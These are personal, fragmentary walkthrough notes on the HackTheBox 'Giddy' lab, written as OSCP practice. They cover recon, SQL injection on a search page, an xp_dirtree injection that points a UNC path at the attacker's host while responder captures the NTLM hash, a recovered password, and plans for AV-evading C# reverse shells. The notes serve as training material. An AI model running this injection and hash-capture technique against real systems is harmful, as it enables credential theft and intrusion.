



# Giddy Walkthrough
Name: Giddy
Date:  
Difficulty:  Medium
Description:  
Better Description:  
Goals:  OSCP Prep - Ippsec handholding to feel mentored
Learnt:


First the video is three years old and more tools are avaliable to me than to him way back then


## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


Added 
```bash
echo '10.129.96.140 giddy' | sudo tee -a /etc/hosts
```



Check the details!

Directory busting with feroxbuster:


Went to the page /mvc/Search.aspx and insta-search for`'`:


One thing not noticed in the video `C:\Users\jnogueira\Downloads\owasp10\1-owasp-top10-m1-injection-exercise-files\before\1-Injection\Product.aspx.`
Ippsec demonstrated a more through methodology of testing for `--` aswell to see if it causes an error. Not using `sqlmap` till I finish OSCP.. so I tried it as this box is not on OSCP pwnlist got with id-sqli.req: 


## Exploit

Arbituary File Reading with xp_dirtree
```sql
declare @q varchar(200); set @q ='\$ip\IppsecIsAwesome\test';exec master.dbo.xp_dirtree @q;--+
```


```bash
responder -I tun0
```


Paused video to see if I could try pass the hash. I could not.


```
xNnWo6272k7x
```


## Foothold


## PrivEsc

This directory is writable, see the 43390.txt poc.


But..

Windows Defender removes it... 

Then I went on a research spree on C Sharp,  Undetectable C sharp Reverse Shells and the best Windows-OS VM for ethical hacking for Archive. 33:00 paused...